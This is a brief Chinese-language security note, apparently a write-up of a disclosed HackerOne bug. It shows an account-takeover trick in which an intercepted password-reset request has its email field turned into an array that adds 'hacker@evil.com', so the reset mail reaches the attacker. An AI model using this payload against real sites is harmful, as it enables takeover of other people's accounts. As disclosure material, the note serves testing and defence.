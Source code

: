 忘记密码, 输入受害者的电子邮件并通过 Burp Suite 拦截提交请求

将请求包中的 `"user[email]":"user@example.com"` 格式化并添加一个邮箱

```
 "user" {
     "email" [
              "user@example.com",
              "hacker@evil.com"
       ]
 },
```

此时攻击者的邮箱可以接收到目标用户的密码重置邮件

---

References

- [获取重置密码邮件](https://hackerone.com/reports/2293343)
